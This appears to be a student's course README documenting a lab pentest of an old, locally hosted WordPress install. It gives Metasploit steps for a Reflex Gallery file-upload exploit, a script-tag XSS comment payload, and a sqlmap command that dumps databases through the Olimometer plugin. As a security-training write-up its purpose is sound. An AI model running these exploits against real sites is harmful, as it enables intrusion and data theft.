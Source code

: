 # Project 7 - WordPress Pentesting

Time spent: **10** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. Arbitrary File Upload
  - [x] Summary: Using Metasploit, allows the user to gain access to the file system.
    - Vulnerability types: Arbitrary File Upload
    - Tested in version: 3.1.3 (Reflex Gallery)
    - Fixed in version: 3.1.4 (Reflex Gallery)
  - [x] GIF Walkthrough: <img src="arbitrary_file.gif">
  - [x] Steps to recreate: 
	1. ```server postgresql start```
	2. ```msfdb init```
	3. ```msfconsole```
	4. At this point, you will be inside of the Metasploit console
	5. ```db_status``` (If it reads Connected to msf, you're good to go)
	6. ```search Reflex```
	7. ```use 0```
	8. ```set RHOST 127.0.0.1```
	9. ```set RPORT 8080```
	10. ```set LHOST 192.168.65.3``` (Different in some cases, it's eth0 under ifconfig)
	11. ```exploit``` (this will gain you access to the file system to edit php files)
	
### 2. XSS Comment (Authorized)
  - [x] Summary: 
    - Vulnerability types: XSS using comments that are authorized on WP
    - Tested in version: 4.1
    - Fixed in version: 4.1.26
  - [x] GIF Walkthrough: <img src="XSS_Comment_Scripting.gif">
  - [x] Steps to recreate: 
	1. **Login to Admin account on WordPress**
	2. **Find a comment to post on**
	3. **Post a javascript tag in the comment box**
	4. Example: ```<script>alert('XSS!');</script>```
	
### 3. SQL Injection Olimometer_id Plugin
  - [x] Summary: 
    - Vulnerability types: SQL Injection
    - Tested in version: 2.56
    - Fixed in version: ***Not Fixed as of currently***
  - [x] GIF Walkthrough: <img src="SQL_injection.gif">
  - [x] Steps to recreate: 
	1. Download **Olimometer Plugin** for Word Press
	2. Run SQL map with this command
		```***sqlmap -u http://localhost:8080/wp-content/plugins/olimometer/thermometer.php?olimometer_id=1 --dbs --threads=5 --random-agent --no-cast***```
	3. It should dumb two databases ```exampldb``` and ```information_schema```

## Resources

- [WordPress Scan] (https://wpscan.com)

GIFs created with Screen To GIF

## Notes

**DO NOT FOR THE LOVE OF GOD UPDATE WORDPRESS WHEN DOING THIS UNIT, IT WAS A PAIN TO UNDO.**